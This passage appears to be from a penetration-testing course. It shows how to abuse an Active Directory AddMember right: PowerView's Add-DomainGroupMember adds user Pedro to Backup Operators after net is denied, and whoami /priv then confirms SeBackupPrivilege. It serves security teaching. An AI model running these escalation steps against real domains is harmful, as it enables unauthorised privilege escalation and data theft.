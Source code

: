 We will get the "Access Denied" error message if we try to add `Pedro` to the group using `net`:

#### Trying to add Pedro to the Backup Operators Group with net

```cmd-session
C:\Tools> net localgroup "Backup Operators" pedro /add

System error 5 has occurred.

Access is denied.

```

We cannot modify the group membership when we have `Self-MemberShip`. For this reason, we will use `PowerView` to abuse the `AddMember` privilege.

#### Adding a User to a Group using PowerView

```powershell
PS C:\Tools> Add-DomainGroupMember -Identity "Backup Operators" -Members pedro -Verbose

VERBOSE: [Add-DomainGroupMember] Adding member 'pedro' to group 'Backup Operators'

```

## Abusing the Newly Gained Privileges from Windows

We added `Pedro` to the `Backup Operators` group. Nevertheless, if we already have logged in as `Pedro` to abuse the `Backup Operators` group privileges, we must reauthenticate to the Domain to get a ticket with the required group membership. We will also need to make sure to launch a new `powershell.exe` or `cmd.exe` as Administrator, because regardless that we are not administrators, the `Backup Operators` group gives us access to the privilege `SeBackupPrivilege`, which needs to comply with the `User Account Control` ( `UAC`) settings.

Let us launch a new `cmd.exe` window as Administrator and use the credentials of `Pedro` to confirm we have the appropriate access rights/privileges:

#### Pedro with Backup Operators Privileges

```cmd-session
C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

```

